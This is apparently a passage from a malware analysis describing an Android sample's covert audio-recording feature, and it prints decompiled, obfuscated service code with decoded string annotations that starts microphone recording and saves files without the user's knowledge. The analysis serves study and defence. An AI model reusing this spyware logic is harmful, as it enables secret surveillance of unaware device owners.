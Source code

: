 
# Recording audio

The malware has the ability to record audio without the knowledge of the user. 

```cs
protected void onHandleIntent(Intent intent0) {
        try {  // tick
            int v = Integer.parseInt(intent0.getStringExtra(this.a("ZmNkMTNmYWY=")));  // tick
            String s = intent0.getStringExtra(this.a("ZTZkOTMxYTE="));  // name
            if(v > 0 || v == -1) {
                String s1 = new SimpleDateFormat(this.a("YzVmNTcxYTBkYTdiNzgyY2IwYjUyNDdiNzY3Mzc2YzJlZmNiOTE="), Locale.US).format(Calendar.getInstance().getTime());  // MM-dd-yyyy_HH:mm:ss
                this.d = this.getExternalFilesDir(null) + (this.a("YTc=") + s + this.a("ZDc=") + s1 + this.a("YTZkOTMxYjY="));  // .amr
                                                                                                                                // _
                                                                                                                                // /
                this.b.a(this.a("Y2VmMTEwODE5ZTA0NDQxNg=="), this.d);  // FILE REC
                this.b.a(this.a("ZGNkMTMxYTE="), String.valueOf(v));  // Time
                String s2 = this.d;
                MediaRecorder mediaRecorder0 = new MediaRecorder();
                this.b.a(this.a("ZGJmNzA5OGFmYQ=="), this.a("ZGJlYzFkOTZlYTc2NTMxMDhhODMyOTc3MWUxYTU0ZmE5YmZj"));  // START RECORD SOUND
                                                                                                                   // SOUND
                this.a = false;
                mediaRecorder0.setAudioSource(1);
                mediaRecorder0.setOutputFormat(3);
                mediaRecorder0.setAudioEncoder(1);
                mediaRecorder0.setOutputFile(s2);
                Thread thread0 = new Thread(new Runnable() {
                    @Override
                    public final void run() {
                        try {
                            if(v == -1) {
                                Thread.sleep(900000L);
                            }
                            else {
                                Thread.sleep(v * 1000);
                            }
                        }
                        catch(InterruptedException unused_ex) {
                            izyiyumk.this.b.a(izyiyumk.this.a("ZGJmNzA5OGFmYQ=="), izyiyumk.this.a("ZGJlYzEzOTQ5ZTA0NDQxNjg2OWUzZjEzNmQwNjRlZTE5MQ=="));  // STOP RECORD SOUND
                                                                                                                                                          // SOUND
                            try {
                                mediaRecorder0.stop();
                                mediaRecorder0.release();
                                izyiyumk.this.b.a(izyiyumk.this.a("Y2VmMTEwODE="), s2);  // FILE
                                String s = izyiyumk.this.b.j(this, izyiyumk.this.c.ba);
                                izyiyumk.this.b.e(this, izyiyumk.this.c.ba, s + izyiyumk.this.a("YWI5Yjdm") + s2);  // ###
                                if(v == -1) {
                                    if(izyiyumk.this.b.j(this, izyiyumk.this.c.aZ).equals(izyiyumk.this.a("Yjk="))) {  // 1
                                        Intent intent0 = new Intent(this, izyiyumk.class).putExtra(izyiyumk.this.a("ZmNkMTNmYWY="), izyiyumk.this.a("YTU4OQ==")).putExtra(izyiyumk.this.a("ZTZkOTMxYTE="), izyiyumk.this.a("ZmFkZDNmYWJjYzMyNWUzNGJjYTgxMjVj"));  // record_audio
```